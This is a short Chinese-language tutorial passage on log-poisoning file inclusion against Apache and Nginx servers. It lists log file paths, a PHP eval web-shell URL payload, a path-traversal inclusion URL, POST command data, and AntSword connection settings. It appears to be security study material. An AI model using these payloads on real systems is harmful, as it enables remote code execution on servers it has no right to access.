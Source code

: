 



用户发起请求时，服务器将请求写入access.log，当发生错误时将错误写入error.log

要先查看在error.log里面的信息记录格式，才能进行相应的包含

一般来说，目录文件：



```
/var/log/apache/access.log
/var/log/apache2/access.log
/etc/httpd/logs/access.log
```



访问步骤：



先将php代码写入error.log文件中，再进行文件包含，最后用shellcode进行入侵

已知某服务器上可以下面格式进行文件访问，但是不可写入文件



```
http://xxx.xxx.xx.x/name=xxx.txt
```



```
http://xxx.xxx.xx.x/<?php @eval($_POST[123]);?>
```





```
http://xxx.xxx.xx.x/?name=../Apache/logs/error.log
```

提交上述URL的同时，提交POST数据：`123=phpinfo();`



或者可以使用蚁剑进行提交

```
URL：http://192.168.10.150/1.php/?name=../Apache/logs/error.log
连接密码：123
```





#### Nginx日志文件



```
/var/log/nginx/access.log
```

